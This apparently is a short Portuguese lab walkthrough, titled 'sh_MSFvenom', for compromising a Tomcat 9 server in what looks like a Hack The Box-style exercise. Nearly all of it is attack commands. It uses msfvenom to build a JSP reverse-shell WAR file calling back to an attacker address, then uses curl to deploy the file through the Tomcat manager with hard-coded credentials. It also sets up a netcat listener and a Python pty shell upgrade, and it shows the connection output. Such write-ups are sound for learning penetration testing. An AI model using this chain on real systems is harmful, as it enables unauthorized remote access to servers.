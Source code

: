 ```yaml
---
title: "sh_MSFvenom"
date: 2020-07-22T23:25:57-03:00
draft: false
---
```


```sh
echo "-------------------------------------CRIANDO UM EXPLOID COM MSFVENOM----------------------------------------------------"




msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.29 LPORT=4444 -f war > exploit.war

#IP do seu local host + porta
#Criação do arquivo .WAR



echo "-------------------------------------UPLOAD DO EXPLOIT NO ALVO---------------------------------------------------------"







curl --user 'tomcat:$3cureP4s5w0rd123!' --upload-file exploit.war "http://10.10.10.194:8080/manager/text/deploy?path=/exploit.war"


#O ataque foi em um alvo cujo tomcat9 estava vulneravel

#IP do RHOST(alvo) + porta da aplicação

#upload do arquivo .war





echo "------------------------------------sucesso no upload -----------------------------------------------------"








echo "-----------------------------------Se conectando ao netcat---------------------------------------------------------"









echo "----------------------------------- http://10.10.10.194:8080/exploit.war  ---------------------------------------------"
nc -nvlp 4444

#em outra aba do terminal, deixe escutando na porta que desejar 
# nc -nvlp 4444


```

Quando estiver ouvindo a porta,  vá no navegador e chame o arquivo que você acabou de fazer o upload

`http://10.10.10.194:8080/exploit.war/`

volte no terminal, ele vai ter conectado via shell agora execute o shell reverso em python para o term

listening on [any] 4444 ...
connect to [10.10.14.29] from (UNKNOWN) [10.10.10.194] 50476

`$ python3 -c "import pty;pty.spawn('/bin/bash')"`
